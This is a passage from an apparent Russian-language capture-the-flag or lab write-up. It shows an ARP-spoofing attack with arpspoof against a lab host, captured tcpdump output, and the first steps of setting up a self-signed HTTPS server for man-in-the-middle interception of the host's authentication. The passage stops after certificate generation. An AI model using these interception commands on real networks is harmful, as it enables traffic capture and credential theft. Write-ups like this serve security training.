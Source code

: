 ```bash
date: Tue, 06 Dec 2022 12:49:40 GMT

User unauthorized
```

Тело ответа изменилось значит мы на правильном пути.

На данном этапе необходимо пройти процедуру авторизации.

Сервер `10.13.37.10` - сервер с метриками, значит, вероятнее всего, второй хост `10.13.37.13` производит сбор этих метрик.

Чтобы узнать, как второй хост проходит процедуру авторизации, необходимо произвести перехват трафика с этого хоста.

Для этого отлично подойдет атака ARP-spoofing. 

```bash
# Восстановим наш IP-адрес к изначальному виду
sudo ip a del 10.13.37.13 dev tap0
sudo ip a addd 10.13.37.100/24 dev tap0

# Производим отравление ARP-кэша хоста 10.13.37.13

sudo arpspoof -i tap0 -t 10.13.37.13 10.13.37.10
```

Траффик должен пойти с хоста 10.13.37.13 на наш. Убедиться можно, запустив `tcpdump`.
```bash
> sudo tcpdump -A -s 0 'tcp port 443' -i tap0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tap0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
13:09:39.930776 IP 10.13.37.13.44736 > 10.13.37.10.https: Flags [.], ack 1516291322, win 501, options [nop,nop,TS val 655982594 ecr 576236342], length 0
E..4..@.@...
.%
.%
....S6
.Z`......t......
'..."X.6
...
```

Действительно, хост `10.13.37.13` отправляет запросы на HTTPS-порт хоста `10.13.37.10`.

Однако, никакой полезной информации мы не видим из-за того, что в запросе происходит попытка установления безопасного соединения.

Вспомним, что сертификаты на сервере самоподписанные, и попробуем поднять собственный HTTPS-сервер с самоподписаными сертификатами.
```bash
# Сгенерируем приватный ключ...
> openssl genrsa -out server.key 2048
# и сам сертификат
> openssl req -new -x509 -sha256 -key server.key -out server.crt -days 3650
```
